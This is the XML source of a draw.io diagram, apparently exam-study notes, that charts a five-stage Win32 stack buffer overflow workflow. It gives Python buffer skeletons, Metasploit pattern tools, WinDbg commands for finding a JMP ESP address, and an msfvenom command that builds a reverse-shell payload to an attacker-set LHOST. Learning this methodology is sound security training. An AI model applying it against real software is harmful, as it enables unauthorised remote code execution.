

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1664" dy="1630" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" background="#ffffff" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="78PfV06KpqRQei-9wQ5w-2" value="&lt;font style=&quot;font-size: 20px;&quot;&gt;Win32 Buffer Overflow Exploitation Flow Model&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="215" y="50" width="540" height="70" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-3" value="Utilize EIP register to control direction / flow of application&lt;div&gt;(&lt;i&gt;via overwriting EIP&lt;/i&gt;)&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="235" y="190" width="180" height="60" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-6" value="filler = b&quot;A&quot; * msf_pattern_offset&lt;div&gt;eip = b&quot;B&quot; * 4&lt;/div&gt;&lt;div&gt;buf = b&quot;C&quot; * 16&lt;/div&gt;&lt;div&gt;inputBuffer = filler + eip + buf&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="710" y="180" width="210" height="80" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-17" value="&lt;br&gt;&lt;div&gt;&lt;div&gt;&lt;font style=&quot;font-size: 14px;&quot;&gt;Stage 3 — Checking for Bad Char&amp;nbsp;&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="55" y="523.75" width="160" height="36.25" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-18" value="&#10;&lt;div style=&quot;forced-color-adjust: none;&quot;&gt;&lt;font style=&quot;forced-color-adjust: none; font-size: 14px;&quot;&gt;&lt;br class=&quot;Apple-interchange-newline&quot;&gt;Stage 1 — Control EIP&amp;nbsp;&lt;/font&gt;&lt;/div&gt;&lt;div style=&quot;forced-color-adjust: none;&quot;&gt;&lt;br style=&quot;forced-color-adjust: none; color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(236, 236, 236); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial;&quot;&gt;&#10;&#10;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="50" y="210" width="170" height="30" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-19" value="&lt;br&gt;&lt;div&gt;&lt;div&gt;&lt;font style=&quot;font-size: 14px;&quot;&gt;Stage 2 — Locating Space for Shellcode&amp;nbsp;&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="55" y="350" width="160" height="40" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-20" value="Replace shellcode with all possible hex characters less 0x00" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="235" y="490" width="210" height="77.5" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-21" value="&lt;br&gt;&lt;div&gt;&lt;div&gt;&lt;font style=&quot;font-size: 14px;&quot;&gt;Stage 4 — Redirect Execution Flow&lt;/font&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;font style=&quot;font-size: 14px;&quot;&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="55" y="666.88" width="160" height="40" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-22" value="&amp;nbsp;Verify any characters have been mangled/truncated the buffer" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="605" y="495" width="205" height="67.5" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-28" value="" style="endArrow=classic;html=1;rounded=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-20" target="78PfV06KpqRQei-9wQ5w-22">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="440" y="538.75" as="sourcePoint" />
        <mxPoint x="570" y="538.51" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-29" value="&lt;i&gt;db command&amp;nbsp;&lt;/i&gt;&lt;div&gt;&lt;i&gt;to dump ESP&lt;/i&gt;&lt;/div&gt;" style="edgeLabel;resizable=0;html=1;;align=center;verticalAlign=middle;" connectable="0" vertex="1" parent="78PfV06KpqRQei-9wQ5w-28">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="5" as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-30" value="" style="endArrow=classic;html=1;rounded=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-3" target="78PfV06KpqRQei-9wQ5w-6">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="430" y="180" as="sourcePoint" />
        <mxPoint x="650" y="200" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-31" value="&lt;div&gt;&lt;i&gt;msf_pattern_create -l [buf len]&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;msf_pattern_offset -l [buf len] -q [bytes in EIP]&lt;/i&gt;&lt;/div&gt;" style="edgeLabel;resizable=0;html=1;;align=center;verticalAlign=middle;" connectable="0" vertex="1" parent="78PfV06KpqRQei-9wQ5w-30">
      <mxGeometry relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-32" value="filler = b&quot;A&quot; * msf_pattern_offset&lt;div&gt;eip = b&quot;B&quot; * 4&lt;/div&gt;&lt;div&gt;offset = b&quot;C&quot; * 4&lt;/div&gt;&lt;div&gt;shellcode = b&quot;D&quot; * (1500 - len(filler) - len(eip) - len(offset))&lt;/div&gt;&lt;div&gt;inputBuffer = filler + eip + offset + buf&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="235" y="330" width="370" height="80" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-37" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;dashed=1;dashPattern=1 4;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-18">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="430" y="500" as="sourcePoint" />
        <mxPoint x="135" y="350" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-38" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;dashed=1;dashPattern=1 4;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-19" target="78PfV06KpqRQei-9wQ5w-17">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="180" y="270" as="sourcePoint" />
        <mxPoint x="180" y="405" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-39" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;dashed=1;dashPattern=1 4;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-17" target="78PfV06KpqRQei-9wQ5w-21">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="134.70999999999998" y="580" as="sourcePoint" />
        <mxPoint x="135" y="650" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-47" value="" style="edgeStyle=segmentEdgeStyle;endArrow=classic;html=1;curved=0;rounded=0;endSize=8;startSize=8;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=1;entryY=0.25;entryDx=0;entryDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-6">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="815" y="260" as="sourcePoint" />
        <mxPoint x="605" y="370" as="targetPoint" />
        <Array as="points">
          <mxPoint x="815" y="370" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-48" value="&lt;i&gt;Inspect ESP&amp;nbsp;&lt;/i&gt;&lt;div&gt;&lt;i&gt;Find offset from ESP&lt;/i&gt;&lt;/div&gt;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="78PfV06KpqRQei-9wQ5w-47">
      <mxGeometry x="0.3072" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-49" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.283;exitY=0.991;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;exitPerimeter=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-32" target="78PfV06KpqRQei-9wQ5w-20">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="430" y="500" as="sourcePoint" />
        <mxPoint x="480" y="450" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-51" value="" style="edgeStyle=segmentEdgeStyle;endArrow=classic;html=1;curved=0;rounded=0;endSize=8;startSize=8;entryX=0.75;entryY=0;entryDx=0;entryDy=0;dashed=1;dashPattern=1 2;" edge="1" parent="1" target="78PfV06KpqRQei-9wQ5w-20">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="710" y="495" as="sourcePoint" />
        <mxPoint x="700" y="410" as="targetPoint" />
        <Array as="points">
          <mxPoint x="710" y="495" />
          <mxPoint x="710" y="450" />
          <mxPoint x="398" y="450" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-53" value="&lt;i&gt;remove found bad char from buffer and repeat process&lt;/i&gt;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="78PfV06KpqRQei-9wQ5w-51">
      <mxGeometry x="0.0998" y="-1" relative="1" as="geometry">
        <mxPoint x="23" as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-54" value="Find&amp;nbsp;&lt;b&gt;consistent, static&amp;nbsp;&lt;/b&gt;Return Address&lt;div&gt;(&lt;i&gt;since ESP is dynamic&lt;/i&gt;)&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;Solution&amp;nbsp;&lt;/i&gt;&lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;i&gt;— &lt;b&gt;JMP ESP&lt;/b&gt; instruction&lt;/i&gt;&lt;/span&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="235" y="643.75" width="210" height="86.25" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-58" value="&lt;div&gt;Process Hacker to find usable DLLs&amp;nbsp;&lt;/div&gt;&lt;div&gt;&lt;ul&gt;&lt;li&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;SafeSEH, ASLR, DEP not enabled&lt;/span&gt;&lt;/li&gt;&lt;li&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;No bad char in JMP ESP address&lt;/span&gt;&lt;/li&gt;&lt;/ul&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;align=center;" vertex="1" parent="1">
      <mxGeometry x="550" y="640.94" width="300" height="91.88" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-59" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-54" target="78PfV06KpqRQei-9wQ5w-58">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="430" y="810" as="sourcePoint" />
        <mxPoint x="480" y="760" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-63" value="&lt;br&gt;&lt;div&gt;&lt;div&gt;&lt;font style=&quot;font-size: 14px;&quot;&gt;Stage 5 — Complete Exploit&lt;/font&gt;&lt;/div&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="55" y="883.13" width="160" height="30" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-64" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;dashed=1;dashPattern=1 4;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-21" target="78PfV06KpqRQei-9wQ5w-63">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="180" y="720" as="sourcePoint" />
        <mxPoint x="180" y="824" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-65" value="Generate Metasploit shellcode&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;msfvenom -p windows/shell_reverse_tcp LHOST=[lhost] LPORT=[lport] -f -c -e x86/shikata_ga_nai -b &quot;[bad_chars]&quot;&lt;/i&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="235" y="860" width="480" height="76.25" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-66" value="" style="edgeStyle=elbowEdgeStyle;elbow=vertical;endArrow=classic;html=1;curved=0;rounded=0;endSize=8;startSize=8;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-58" target="78PfV06KpqRQei-9wQ5w-65">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="710" y="739.9999999999999" as="sourcePoint" />
        <mxPoint x="590" y="893.43" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-67" value="&lt;div&gt;&lt;i&gt;i.e. libspp.dll&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;msf-nasm_shell &amp;gt; jmp esp&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;lm m libspp&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;s -b [start_address] [end_address] [JMP_ESP_opcode]&lt;/i&gt;&lt;/div&gt;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="78PfV06KpqRQei-9wQ5w-66">
      <mxGeometry x="-0.0968" y="1" relative="1" as="geometry">
        <mxPoint x="-25" as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-68" value="NOP Sled" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="235" y="980" width="480" height="40" as="geometry" />
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-69" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-65" target="78PfV06KpqRQei-9wQ5w-68">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="540" y="960" as="sourcePoint" />
        <mxPoint x="590" y="910" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-70" value="&lt;i&gt;Problem: Encoding mangles several bytes close to ESP address.&amp;nbsp;&lt;/i&gt;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="78PfV06KpqRQei-9wQ5w-69">
      <mxGeometry x="-0.1899" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-72" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="1" source="78PfV06KpqRQei-9wQ5w-68">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="775" y="1000" as="sourcePoint" />
        <mxPoint x="750" y="1000" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="78PfV06KpqRQei-9wQ5w-78" value="&lt;font style=&quot;font-size: 36px;&quot; face=&quot;Lucida Console&quot;&gt;PWNED!&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="790" y="985" width="60" height="30" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>